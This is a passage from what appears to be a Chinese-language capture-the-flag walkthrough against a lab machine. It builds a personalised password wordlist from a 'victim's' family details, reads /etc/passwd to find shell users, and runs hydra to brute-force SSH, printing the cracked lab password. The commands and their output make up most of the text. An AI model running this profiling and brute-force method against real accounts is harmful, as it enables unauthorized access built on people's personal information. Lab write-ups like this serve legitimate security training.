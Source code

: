 ```bash
> Birthdate (DDMMYYYY): 


> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 


> Child's name: Jake
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: 
> Company name: 


> Do you want to add some key words about the victim? Y/[N]: 
> Do you want to add special chars at the end of words? Y/[N]: 
> Do you want to add some random numbers at the end of words? Y/[N]:
> Leet mode? (i.e. leet = 1337) Y/[N]: 

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to david.txt, counting 212 words.
[+] Now load your pistolero with david.txt and shoot! Good luck!
```

别照抄指令哈，要根据自己环境修改哦，尝试进行爆破：

### 爆破密码

```bash
(remote) lamb@pwnding:/home/lamb$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
lamb:x:1001:1001:,,,:/home/lamb:/bin/bash
```

发现就这几个用户，说明社工密码可能就是本用户的密码，尝试进行爆破登录：

```bash
┌──(kali㉿kali)-[~/temp/easypwn]
└─$ hydra -l lamb -P david.txt -f ssh://192.168.10.102:22                                                                             
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-10 06:22:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 212 login tries (l:1/p:212), ~14 tries per task
[DATA] attacking ssh://192.168.10.102:22/
[22][ssh] host: 192.168.10.102   login: lamb   password: ekaJ_2016
[STATUS] attack finished for 192.168.10.102 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-10 06:23:25
```
